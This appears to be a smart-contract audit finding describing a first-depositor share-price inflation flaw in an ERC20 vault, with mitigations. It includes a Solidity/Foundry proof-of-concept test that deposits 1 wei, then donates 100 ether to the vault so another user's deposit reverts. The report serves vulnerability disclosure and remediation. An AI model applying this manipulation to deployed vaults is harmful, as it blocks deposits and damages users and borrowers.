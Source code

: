 JohnSmith
# First user can set arbitrary price, which may prevent some users to deposit

## [M] First user can set arbitrary price, which may prevent some users to deposit
### Problem
First user can set share price by sending tokens to the system externally, price can be very high. As result a lot of users will not be able to deposit.
And borrowers will have smaller amount to borrow and higher interest rate to pay, because amount of underlying asset is smaller, because less amount of people are able to deposit.

### Proof of Concept
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testSharePriceManipulation() public{
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);

        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewDeposit(80 ether), 0);
        assertEq(lErc20.previewDeposit(100 ether + 1), 1);

        //bob cannot deposit below share price which can be very expensive
        cheats.expectRevert("ZERO_SHARES");
        cheats.prank(bob);
        lErc20.deposit(80 ether, bob);
    }
```

### Mitigation
Force users to deposit at least some amount in the LToken vault .
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2

